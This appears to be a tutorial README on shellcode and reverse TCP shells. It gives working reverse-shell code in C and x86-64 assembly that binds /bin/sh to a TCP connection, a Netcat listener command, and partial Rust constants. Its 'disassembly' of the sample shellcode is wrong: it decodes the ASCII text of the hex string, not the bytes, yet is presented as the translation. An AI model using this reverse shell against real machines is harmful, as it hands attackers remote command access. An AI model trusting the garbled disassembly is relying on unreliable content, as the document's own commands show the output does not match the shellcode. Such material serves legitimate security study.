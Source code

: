 # Shellcode

The shellcode is the the raw coded executed into a machine by a memory exploit. Shellcode is written in assembly, what makes it difficult. It's the most powerful way to do it but it's not practical, hard to code, hard to debug and it's not portable across architectures.

This is an example of some shellcode:

```
488d35140000006a01586a0c5a4889c70f056a3c5831ff0f05ebfe68656c6c6f20776f726c640a
```

For understanding it, write it to a file:

```
$ echo '488d35140000006a01586a0c5a4889c70f056a3c5831ff0f05ebfe68656c6c6f20776f726c640a' > shellcode.bin
```
"Disassmbly" the file:

```
$ objdump -D -b binary -mi386 -Mx86-64 -Mintel shellcode.bin
```

This will be the final translated output:

```asm
shellcode.bin:     file format binary


Disassembly of section .data:

00000000 <.data>:
   0:	34 38                	xor    al,0x38
   2:	38 64 33 35          	cmp    BYTE PTR [rbx+rsi*1+0x35],ah
   6:	31 34 30             	xor    DWORD PTR [rax+rsi*1],esi
   9:	30 30                	xor    BYTE PTR [rax],dh
   b:	30 30                	xor    BYTE PTR [rax],dh
   d:	30 36                	xor    BYTE PTR [rsi],dh
   f:	61                   	(bad)  
  10:	30 31                	xor    BYTE PTR [rcx],dh
  12:	35 38 36 61 30       	xor    eax,0x30613638
  17:	63 35 61 34 38 38    	movsxd esi,DWORD PTR [rip+0x38383461]        # 0x3838347e
  1d:	39 63 37             	cmp    DWORD PTR [rbx+0x37],esp
  20:	30 66 30             	xor    BYTE PTR [rsi+0x30],ah
  23:	35 36 61 33 63       	xor    eax,0x63336136
  28:	35 38 33 31 66       	xor    eax,0x66313338
  2d:	66 30 66 30          	data16 xor BYTE PTR [rsi+0x30],ah
  31:	35 65 62 66 65       	xor    eax,0x65666265
  36:	36 38 36             	ss cmp BYTE PTR [rsi],dh
  39:	35 36 63 36 63       	xor    eax,0x63366336
  3e:	36 66 32 30          	ss data16 xor dh,BYTE PTR [rax]
  42:	37                   	(bad)  
  43:	37                   	(bad)  
  44:	36 66 37             	ss data16 (bad) 
  47:	32 36                	xor    dh,BYTE PTR [rsi]
  49:	63 36                	movsxd esi,DWORD PTR [rsi]
  4b:	34 30                	xor    al,0x30
  4d:	61                   	(bad)  
  4e:	0a                   	.byte 0xa
```


# Reverse TCP

The first thing that we should know is that a reverse TCP shellcode establishes a TCP connection to a server, creates a shell into the victim's computer and redirects the STDOUT functions to the TCP, this allows the attacker to have access into the victim's machine.

# C Reverse TCP

This is an example of a reverse shell client written in C: 

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

  void main() {
    
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in sin;
    
    sin.sin_family = AF_INET;
    sin.sin_port = htons(8042);
    
    inet_pton(AF_INET, "127.0.0.1", &sin.sin_addr.s_addr);
    connect(sock, (struct sockaddr *)&sin, sizeof(struct sockaddr_in));

    dup2(sock, STDIN_FILENO);
    dup2(sock, STDOUT_FILENO);
    dup2(sock, STDERR_FILENO);

    char *argv[] = {"/bin/sh", NULL};
    execve(argv[0], argv, NULL);
}
```
This is a simple TCP reverse shell working in UNIX systems, for trying it you can just compile and run it, don't forget using a server as NC for accepting the incoming connections.

```sh
gcc main.c -o reversetcp

./reversetcp
```

# Tanslated to ASM

This is the same code but translated to ASM x86_64.

```asm
; Same C code but written in ASM x86-64.
 
xor rdx, rdx
mov rsi, 1
mov rdi, 2
mov rax, 41
syscall

push 0x0100007f ; 127.0.0.1 == 0x7f000001
mov bx, 0x6a1f ; 8042 = 0x1f6a
push bx
mov bx, 0x2
push bx
mov rsi, rsp
mov rdx, 0x10
mov rdi, rax
push rax
mov rax, 42
syscall
pop rdi
mov rsi, 2
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall
push 0x68732f
push 0x6e69622f
mov rdi, rsp
xor rdx, rdx
push rdx
push rdi
mov rsi, rsp
mov rax, 59
syscall
```

This is a good example for why is important to use higher level languajes.

# Final code in Rust

In the Rust code the first thing we have to do is defining our shellcode variables.

```rs
const PORT: u16 = 0x6A1F; // 8042
const IP: u32 = 0x0100007f; // 127.0.0.1

const SYS_DUP2: usize = 33;
const SYS_SOCKET: usize = 41;
const SYS_CONNECT: usize = 42;
const SYS_EXECVE: usize = 59;
const AF_INET: usize = 2;
const SOCK_STREAM: usize = 1;
const IPPROTO_IP: usize = 0;
const STDIN: usize = 0;
const STDOUT: usize = 1;
const STDERR: usize = 2;
```
We also gotta use some structures coded in the C program such as the sockaddr_in structure.
And define the main functions.

# Try and Run

For running the Reverse-TCP client:

```
rustc main.rs
```

And as server we will be using Netcat, preintalled in many Linux systems.

```
nc -vlnp 8042
```

{local_ip}:8042 - You can change the port for receiving the connection in anotherone.

